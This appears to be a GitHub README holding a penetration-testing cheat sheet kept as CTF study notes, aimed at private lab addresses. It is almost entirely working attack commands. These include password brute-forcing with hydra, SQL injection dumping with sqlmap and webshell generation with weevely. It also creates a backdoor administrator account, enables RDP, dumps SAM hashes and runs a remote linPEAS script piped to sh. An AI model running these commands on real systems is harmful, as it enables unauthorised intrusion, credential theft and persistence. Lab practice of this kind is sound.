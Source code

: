 # CTF Memo
## _nmap_
網路設備及服務掃描
```sh
sudo nmap 10.10.10.16  //1000 port
sudo nmap 10.10.10.16 -p-  //1-65535 port
sudo nmap 10.10.10.16 -sU -p53,139,161,1900,5353  //UDP port
sudo nmap 10.10.10.16 -p80 --reason  //REASON
sudo nmap 10.10.10.16 -p80 --open  //display only open port ip
sudo nmap 10.10.10.16 -O  //OS
sudo nmap 10.10.10.16 -sV  //VERSION
sudo nmap 10.10.10.16 -sVC -p445,3389  //VERSION + NSE
sudo nmap 10.10.10.* -sU -p161 --open  //SNMP
sudo nmap 10.10.10.16 -sU -p161 -sC  //使用 NSE 預設腳本
sudo nmap 10.10.10.16 -sU -p161 --script snmp-win32-users  //user account

```
## _snmp-check_
SNMP 設備列舉
```sh
sudo snmp-check 10.10.10.16
```
## _nbtscan_
NetBOIS 掃描
```sh
sudo nbtscan 10.10.10.1-254
```
## _hydra_
破密工具
```sh
hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst smb://10.10.10.16
hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst ftp://10.10.10.16
hydra -l king -P /usr/share/wordlists/nmap.lst rdp://10.10.10.16
```
## _enum4linux_

列舉Windows訊息
```sh
sudo enum4linux -u king -p 'slave' -a 10.10.10.16
```
## _crackmapexec_
網域滲透工具
python3 -m pip install --upgrade impacket  (更新)
```sh
sudo crackmapexec smb 10.10.10.16 -u king -p 'slave' --shares
```
## _net_

```sh
net use \\10.10.10.16 slave /u:king
net view \\10.10.10.16
net user queen /add
net users
net localgroup Administrator queen /add
net localgroup Administrators
```
## _reg add_

新增機碼
```sh
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
## _netstat_
網路狀態
```sh
netstat -an | findstr :3389
```
## _sqlmap_
SQL檢測注入工具
```sh
sudo sqlmap -u "https://url" --cookie="<COOKIE>" --dbs
sudo sqlmap -u "https://url" --cookie="<COOKIE>" -D DB_name --tables
sudo sqlmap -u "https://url" --cookie="<COOKIE>" -D DB_name -T Table_name --columns --technique=B
sudo sqlmap -u "https://url" --cookie="<COOKIE>" -D DB_name -T Table_name --dump --technique=B
```
## _weevely_
Webshell
```sh
weevely generate king backdoor.php  //生成
weevely http://ip:port/backdoor.php king  //連接
```
## _wpscan_
WordPress安全性掃描工具
```sh
wpscan --url http://url -e u  //列舉使用者
wpscan --url http://url -P /usr/share/wordlists/nmap.lst  //破密
```
## _pwdump_

```sh
reg save hklm\sam pwdump\sam
reg save hklm\system pwdump\system
impacket-secretsdump LOCAL -system pwdump/system -sam pwdump/sam -outputfile pwdump/10.10.10.10
ophcrack (執行程式破密)
```
## _john_
破密工具
```sh
john secret.txt --format=raw-md5
```
## _aircrack_

```sh
aircrack-ng WEPooo.cap
aircrack-ng WPA2ooo.cap -w /usr/share/wordlists/nmap.lst
```
## _linPEAS_

```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
## _Android_

```sh
nmap -p5555 10.10.10.* --open
sudo apt install -y adb
adb connect 10.10.10.20:5555
adb devices
adb shell
adb pull /system/app/cindy.apk E:\Cindy\  //get file
```
## _impacket upgrade_

```sh
python3 -m pip install --upgrade impacket
```
## _gzip_

```sh
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```
## _snow_

```sh
snow -C -p pass -m "message" text1.txt text2.txt
snow -C -p pass text2.txt text3.txt
```
## _mount_

```sh
apt install nfs-common
showmount -e 10.10.10.20
mount -t nfs 10.10.10.20:/home /mnt/nfs
mount -t cifs //10.10.10.20/C$ /mnt/smb -o username=king,password=slave
```
## _smbclient_

```sh
smbclient -U "kingdom\king"  //10.10.10.20/C$
```
## _others_

```sh
njRAT         //trajon
SNOW          //space
OpenStego     //picture
HashMyFiles
VeraCrypt
CrypTool
ophcrack
dir xxx.xxx /s/a/p   //find files
visudo
git clone https://github.com/ly4k/PwnKit.git    //CVE-2021-4034
```
## License

MIT
